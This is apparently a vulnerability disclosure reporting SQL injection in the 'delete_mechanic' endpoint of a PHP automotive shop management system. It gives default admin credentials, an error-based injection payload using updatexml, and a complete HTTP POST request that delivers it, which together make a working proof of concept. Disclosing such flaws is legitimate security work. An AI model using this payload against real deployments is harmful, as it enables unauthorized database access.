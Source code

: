 # Automotive Shop Management System v1.0 by oretnom23 has SQL injection

BUG_Author: suikirakira

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15312/automotive-shop-management-system-phpoop-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File:  /asms/classes/Master.php?f=delete_mechanic

Vulnerability location: /asms/classes/Master.php?f=delete_mechanic, id

dbname =asms_db,length=7

[+] Payload:  id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /asms/classes/Master.php?f=delete_mechanic HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0bfse7548hblm5lblclp48r057; dou_member_id=1; dou_member_code=3a2d7d2301afce4cf127
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 67

id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/198047629-33c78376-03bf-47ff-9d21-144bef7ee984.png)

